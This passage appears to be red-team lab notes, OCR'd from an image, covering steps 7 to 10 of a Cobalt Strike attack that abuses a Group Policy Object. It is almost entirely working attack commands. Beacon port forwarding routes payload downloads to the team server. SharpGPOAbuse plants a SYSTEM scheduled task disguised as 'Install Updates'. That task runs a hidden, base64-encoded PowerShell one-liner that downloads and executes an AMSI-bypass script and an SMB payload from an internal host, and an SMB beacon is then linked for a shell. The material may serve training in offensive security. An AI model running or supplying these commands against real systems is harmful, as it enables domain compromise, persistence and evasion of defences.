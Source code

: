 # 7. Setup port forwarding rule to accept the Payload Download request locally and forward to our team server 
beacon> rportfwd 8080 127.0.0.1 80
beacon> rportfwd stop 8080
beacon> run netstat -anp tcp

# 8. Use sharpGPOAbuse to add the backdoor (scheduled task) for execution on targetted system
# iex (iwr http://wkstn-2:8080/amsi-bypass.ps1 -UseBasicParsing) ; iex (iwr http://wkstn-2:8080/smb -UseBasicParsing);
execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "C:\Windows\System32\cmd.exe" --Arguments "/c powershell -w hidden -nop -enc aQBlAHgAIAAoAGkAdwByACAAaAB0AHQAcAA6AC8ALwB3AGsAcwB0AG4ALQAyADoAOAAwADgAMAAvAGEAbQBzAGkALQBiAHkAcABhAHMAcwAuAHAAcwAxACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApACAAOwAgAGkAZQB4ACAAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBzAG0AYgAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAKQA7AA==" --GPOName "Vulnerable GPO" --Force

# 9. Now as we are using smb listener , We have to manually link with each machine that were present in the OU where this GPO was applied.
# Make sure to monitor the web log in cobalt strike for Payload Downloads, And connect to the Smb beacon.
beacon> link WKSTN-1 TSVCPIPE-4036c92b-65ae-4601-1337-57f7b24a0c57

# 10. Lastly, either we can wait for the GPO  to be applied or force update to get reverse shell
